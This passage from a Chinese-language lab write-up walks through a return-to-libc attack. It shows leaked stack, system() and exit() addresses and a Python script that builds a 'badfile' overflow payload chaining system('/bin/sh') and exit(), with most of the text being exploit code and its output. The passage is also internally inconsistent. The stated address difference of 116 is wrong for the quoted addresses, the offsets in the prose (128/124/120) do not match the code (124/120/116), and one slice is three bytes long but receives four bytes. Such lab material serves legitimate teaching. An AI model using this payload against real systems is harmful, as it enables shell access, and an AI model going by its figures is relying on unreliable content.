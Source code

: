 最后运行的结果如下所示，因此 buffer 的起始地址为 0xffffcec8，%ebp 寄存器的值为 0xffffcf38，两者之差为 116。因此位置 1、2、3 的偏移量是 128、124、120。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack
0xffffced4 0xffffcf48
system: 0xf7dc4cd0 exit: 0xf7db71f0
段错误
```

接下来获取 32 位的 **`system()`** 函数和 **`exit()`** 函数的地址分别为：0xf7dc4cd0、0xf7db71f0。再次使用 **`gcc envaddr.c -o env22 -m32`** 命令编译运行 envaddr.c 文件中的代码，程序名称为 env22 是因为环境变量的地址会受到程序名称长度的影响，因此需要将其控制和 stack 名称长度保持一致，运行可以得到 /bin/sh 字符串的地址：**`0xffffd3a9`**。因此可以编写如下的 exploit.py 文件，构建恶意代码：

```python{.line-numbers}
import sys

# 给 content 填上非零值
content = bytearray(0xaa for i in range(300))
# /bin/sh 的地址
a3 = 0xffffd3a9
content[124:127] = (a3).to_bytes(4, byteorder='little')
# exit() 函数的地址
a2 = 0xf7db71f0
content[120:124] = (a2).to_bytes(4, byteorder='little')
# system() 函数的地址
a1 = 0xf7dc4cd0
content[116:120] = (a1).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

